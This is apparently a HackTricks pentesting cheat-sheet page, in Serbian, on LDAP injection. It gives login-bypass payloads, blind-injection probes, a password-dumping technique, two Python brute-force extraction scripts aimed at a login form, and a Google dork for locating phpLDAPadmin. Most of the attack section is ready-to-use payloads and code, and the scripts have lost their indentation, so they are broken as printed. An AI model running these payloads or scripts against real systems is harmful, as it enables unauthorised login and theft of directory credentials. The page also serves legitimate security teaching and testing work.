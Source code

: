 # LDAP Injection

## LDAP Injection

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ako ste zainteresovani za **hakersku karijeru** i da hakujete ono što se ne može hakovati - **zapošljavamo!** (_potrebno je tečno pisanje i govorenje poljskog_).

{% embed url="https://www.stmcyber.com/careers" %}

## LDAP Injection

### **LDAP**

**Ako želite da saznate šta je LDAP, posetite sledeću stranicu:**

{% content-ref url="../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

**LDAP Injection** je napad koji cilja web aplikacije koje konstruiraju LDAP izjave iz korisničkog unosa. Do njega dolazi kada aplikacija **ne uspe da pravilno sanitizuje** unos, omogućavajući napadačima da **manipulišu LDAP izjavama** putem lokalnog proksija, što može dovesti do neovlašćenog pristupa ili manipulacije podacima.

{% file src="../.gitbook/assets/EN-Blackhat-Europe-2008-LDAP-Injection-Blind-LDAP-Injection.pdf" %}

**Filter** = ( filtercomp )\
**Filtercomp** = and / or / not / item\
**And** = & filterlist\
**Or** = |filterlist\
**Not** = ! filter\
**Filterlist** = 1\*filter\
**Item**= simple / present / substring\
**Simple** = attr filtertype assertionvalue\
**Filtertype** = _'=' / '\~=' / '>=' / '<='_\
**Present** = attr = \*\
**Substring** = attr ”=” \[initial] \* \[final]\
**Initial** = assertionvalue\
**Final** = assertionvalue\
**(&)** = Absolute TRUE\
**(|)** = Absolute FALSE

Na primer:\
`(&(!(objectClass=Impresoras))(uid=s*))`\
`(&(objectClass=user)(uid=*))`

Možete pristupiti bazi podataka, a ona može sadržati informacije različitih tipova.

**OpenLDAP**: Ako stignu 2 filtera, izvršava samo prvi.\
**ADAM ili Microsoft LDS**: Sa 2 filtera bacaju grešku.\
**SunOne Directory Server 5.0**: Izvršava oba filtera.

**Veoma je važno poslati filter sa ispravnom sintaksom ili će biti bačena greška. Bolje je poslati samo 1 filter.**

Filter mora početi sa: `&` ili `|`\
Primer: `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))`\
`VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

Zatim: `(&(objectClass=`**`*)(ObjectClass=*))`** će biti prvi filter (onaj koji se izvršava).

### Bypass prijave

LDAP podržava nekoliko formata za čuvanje lozinke: clear, md5, smd5, sh1, sha, crypt. Dakle, može se desiti da bez obzira na to šta unesete u lozinku, ona bude hash-ovana.
```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
#### Liste

* [LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_FUZZ.txt)
* [LDAP Atributi](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt)
* [LDAP PosixAccount atributi](https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html)

### Slepa LDAP Injekcija

Možete naterati False ili True odgovore da proverite da li se vraćaju podaci i potvrdite moguću Slepu LDAP Injekciju:
```bash
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```

```bash
#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### Dump data

Možete iterirati preko ascii slova, cifara i simbola:
```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```
### Scripts

#### **Otkrivanje validnih LDAP polja**

LDAP objekti **po defaultu sadrže nekoliko atributa** koji se mogu koristiti za **čuvanje informacija**. Možete pokušati da **brute-force-ujete sve njih kako biste izvukli te informacije.** Možete pronaći listu [**default LDAP atributa ovde**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt).
```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
value = ""
finish = False
while not finish:
for char in alphabet: #In each possition test each possible printable char
query = f"*)({attribute}={value}{char}*"
data = {'login':query, 'password':'bla'}
r = requests.post(url, data=data, proxies=proxy)
sys.stdout.write(f"\r{attribute}: {value}{char}")
#sleep(0.5) #Avoid brute-force bans
if "Cannot login" in r.text:
value += str(char)
break

if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
finish = True
print()
```
#### **Specijalna Slepa LDAP Injekcija (bez "\*")**
```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
print("[i] Looking for number " + str(i))
for char in alphabet:
r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
if ("TRUE CONDITION" in r.text):
flag += char
print("[+] Flag: " + flag)
break
```
### Google Dorks
```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```
### Više Payload-a

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection" %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ako ste zainteresovani za **karijeru u hakovanju** i da hakujete nehakovano - **zapošljavamo!** (_potrebno je tečno pisanje i govorenje poljskog_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite trikove za hakovanje slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
